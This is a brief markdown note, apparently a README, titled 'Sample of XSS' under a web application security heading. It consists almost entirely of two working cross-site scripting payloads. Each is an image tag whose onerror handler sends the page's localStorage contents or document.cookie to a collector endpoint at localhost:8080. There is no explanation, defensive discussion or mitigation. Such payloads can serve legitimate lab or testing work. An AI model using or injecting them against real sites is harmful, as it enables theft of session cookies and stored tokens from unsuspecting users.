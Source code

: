 #Web Application Security

###Sample of XSS

#### Local Storage
```
<img src=x onerror=this.onerror=null;this.src='http://localhost:8080/api/cookie/collect.gif?cookie='+encodeURIComponent(JSON.stringify(window.localStorage)) />
```

#### Cookie
```
<img src=x onerror=this.onerror=null;this.src='http://localhost:8080/api/cookie/collect.gif?cookie='+document.cookie />
```